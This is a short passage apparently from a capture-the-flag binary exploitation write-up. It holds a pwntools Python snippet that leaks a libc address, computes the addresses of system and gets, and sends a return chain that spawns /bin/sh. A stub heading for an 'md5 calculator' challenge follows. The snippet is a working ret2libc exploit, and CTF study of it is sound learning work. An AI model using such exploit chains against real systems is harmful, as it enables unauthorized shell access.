 ```python
r.recv(1)
putchar_addr = u32(r.recv(4))
libc_base = putchar_addr - libc.symbols["putchar"]
system_addr = libc_base + libc.symbols["system"]
gets_addr = libc_base + libc.symbols["gets"]
main_addr = 0x08048671

r.send(p32(main_addr))
r.send(p32(gets_addr))
r.send(p32(system_addr))
r.sendline(b"/bin/sh")

r.interactive()
```

### md5 calculator

![image-20220821130913765](assets/image-20220821130913765.png)

EXP: 

canary.c needed
